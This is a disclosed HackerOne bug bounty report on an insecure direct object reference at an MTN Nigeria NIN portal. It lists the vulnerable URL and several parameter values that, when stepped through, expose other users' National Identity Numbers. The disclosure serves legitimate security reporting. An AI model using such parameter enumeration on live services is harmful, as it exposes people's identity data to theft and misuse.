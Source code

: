 # Unprotected Direct Object Reference

## Report Details
- **Report ID**: 1536936
- **URL**: https://hackerone.com/reports/1536936
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2022-04-11T00:18:26.846Z
- **Disclosed**: 2022-12-01T17:24:05.518Z

## Reporter
- **Username**: coyemerald
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mtn_group

## Vulnerability Information
Hello MTN Security Team,
During my hunting,
I discovered that there's an Insecure Direct Object Reference  on https://nin.mtnonline.com 
Vulnerable Path:  https://nin.mtnonline.com/nin/success?message=1

Steps To Reproduce:
You may not even require to submit any NIN before accessing this unprotected page,
Just visit https://nin.mtnonline.com/nin/success?message=1 

I discovered that, to  see other user's NIN, it only require 2 difference , example
https://nin.mtnonline.com/nin/success?message=3
https://nin.mtnonline.com/nin/success?message=5
https://nin.mtnonline.com/nin/success?message=7
https://nin.mtnonline.com/nin/success?message=9
https://nin.mtnonline.com/nin/success?message=11
https://nin.mtnonline.com/nin/success?message=1901
https://nin.mtnonline.com/nin/success?message=1903
https://nin.mtnonline.com/nin/success?message=8001

## Impact

This bug exposed all the submitted Nigerians National Identity Number (NIN) .which can be abused in other way else if found out by a malicious person

## Attachments
No attachments
